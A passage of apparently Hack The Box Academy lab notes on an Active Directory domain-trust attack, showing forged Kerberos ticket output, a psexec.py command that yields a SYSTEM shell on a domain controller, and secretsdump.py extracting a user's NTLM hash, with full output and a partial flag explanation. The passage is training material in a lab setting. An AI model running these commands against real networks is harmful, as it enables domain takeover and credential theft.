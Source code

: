 ```powershell
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

If successful, you will get a SYSTEM shell on the root domain controller by using [psexec.py](http://psexec.py)

```powershell
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

```powershell
[htb-student@ea-attack01]─[~]
└──╼ $export KRB5CCNAME=hacker.ccache 
┌─[htb-student@ea-attack01]─[~]
└──╼ $psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 172.16.5.5.....
[*] Found writable share ADMIN$
[*] Uploading file NsHgaujn.exe
[*] Opening SVCManager on 172.16.5.5.....
[*] Creating service GsvV on 172.16.5.5.....
[*] Starting service GsvV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### Accessing another user on domain

```powershell
└──╼ $secretsdump.py hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-ntlm -just-dc-user bross
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\bross:1179:aad3b435b51404eeaad3b435b51404ee:49a074a39dd0651f647e765c2cc794c7:::
```

### Explanation of above attack:

* `hacker@academy-ea-dc01.inlanefreight.local`: This specifies that you're attempting the operation as the user `hacker` against the domain controller at `academy-ea-dc01.inlanefreight.local`.
    
* `k`: This flag tells [`secretsdump.py`](http://secretsdump.py) to use Kerberos authentication. When used, it assumes that a valid Kerberos ticket is available in the cache, which allows authentication without specifying a password.
    